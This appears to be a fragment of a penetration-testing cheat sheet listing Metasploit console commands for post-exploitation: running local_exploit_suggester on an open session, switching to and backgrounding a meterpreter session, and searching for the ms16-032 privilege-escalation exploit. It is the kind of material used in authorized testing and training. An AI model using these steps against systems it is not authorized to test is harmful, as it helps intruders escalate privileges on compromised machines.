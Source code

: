 ```bash
msf5> use post/multi/recon/local_exploit_suggester

msf5> post(multi/recon/local_exploit_suggester) options 

msf5> set session 1

msf5> run
```

Get back to active meterpreter session:
```bash
sessions $SESSION_NUMBER

#ex:
msf5> post(multi/recon/local_exploit_suggester) sessions 1
```

Put session in background:
```bash
meterpreter> background
```

search for exploits
```bash
msf5> post(multi/recon/local_exploit_suggester) search ms16-032
```